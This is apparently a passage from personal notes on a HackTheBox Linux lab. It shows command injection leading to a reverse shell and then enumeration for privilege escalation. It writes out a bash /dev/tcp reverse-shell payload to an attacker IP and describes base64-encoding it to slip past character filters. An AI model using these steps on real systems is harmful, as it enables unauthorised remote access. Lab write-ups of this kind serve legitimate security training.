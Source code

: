 Trying sleep 1 + multiple diff versions of sleep 1
![[HackTheBox/Linux/attachments/Pasted image 20250508214054.png]]

We have command execution with this 

![[HackTheBox/Linux/attachments/Pasted image 20250508214239.png]]

Let's get a shell.

### Obtain reverse shell through command injection vulnerability 

Payload
```
bash -i >& /dev/tcp/10.10.14.8/9001 0>&1
```

Base64 encode the payload 

```
base64 -w 0 shell
```

![[HackTheBox/Linux/attachments/Pasted image 20250508214458.png]]

Get rid of the bad characters like + and = by adding spaces to the payload script

Copy the payload now and paste it into Burp request 

![[HackTheBox/Linux/attachments/Pasted image 20250508214645.png]]

Add the base64 decode as well and echo to bash
![[HackTheBox/Linux/attachments/Pasted image 20250508214852.png]]

Set up nc listener and send the request and catch the shell
![[HackTheBox/Linux/attachments/Pasted image 20250508214921.png]]

❗got initial access as app user❗

Get interactive shell
### Enumerating for priv esc 

Notice this jar file. Normally java apps have an expanded version of jar files somewhere. 

Find the cloudhosting expanded jar 

```
find / 2>/dev/null | grep cloudhosting
```

![[HackTheBox/Linux/attachments/Pasted image 20250508215521.png]]

We could extract the jar and start looking through it ORRR..
see how this jar file is being hosted 

### Searching for services
#### Method 1
```
systemctl list-units --type=service
```
